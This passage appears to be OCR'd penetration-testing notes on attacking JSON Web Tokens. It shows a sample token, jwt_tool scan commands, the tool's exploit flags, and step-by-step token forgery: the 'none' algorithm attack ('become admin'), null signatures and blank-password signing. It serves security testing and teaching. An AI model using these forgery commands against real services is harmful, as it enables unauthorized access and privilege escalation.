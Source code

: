 ```
{"alg":"HS512"}{"sub":"hapihacker@hapihacher.com","iat":1669461899,"exp":1669548299} 
```

To run a JWT scan with jwt_tool, run: 

```bash
jwt_tool -t <http://target-site.com/> -rc "<Header>: <JWT_Token>" -M pb
# in the target site specify a path that leverages a call to a token
# replace Header with the name of the Header and JWT_Tocker with the actual token.
# -M: Scanning mode. 'pb' is playbook audit. 'er': fuzz existing claims to force errors. 'cc': fuzz common claims. 'at': All tests.
```


Some more jwt_tool flags that may come in hand:

```
# -X EXPLOIT, --exploit EXPLOIT
#                        eXploit known vulnerabilities:
#                        a = alg:none
#                        n = null signature
#                        b = blank password accepted in signature
#                        s = spoof JWKS (specify JWKS URL with -ju, or set in jwtconf.ini to automate this attack)
#                        k = key confusion (specify public key with -pk)
#                        i = inject inline JWKS

```


#### The none attack

A JWT with "none" as its algorithm is a free ticket. Modify user and become admin, root,... 
Also, in poorly implemented JWT, sometimes user and password can be found in the payload.

To craft a jwt with "none" as the value for "alg", run:

```bash
jwt_tool <JWT_Token> -X a
```


#### The null signature attack

Second attack in this section is removing the signature from the token. This can be done by erasing the signature altogether and leaving the last period in place.


#### The blank password accepted in signature

Launching this attack is relatively simple. Just remove the password value from the payload and leave it in blank. Then, regenerate the jwt.

Also, with jwt_tool, run:

```bash 
jwt_tool <JWT_Token> -X b
```
 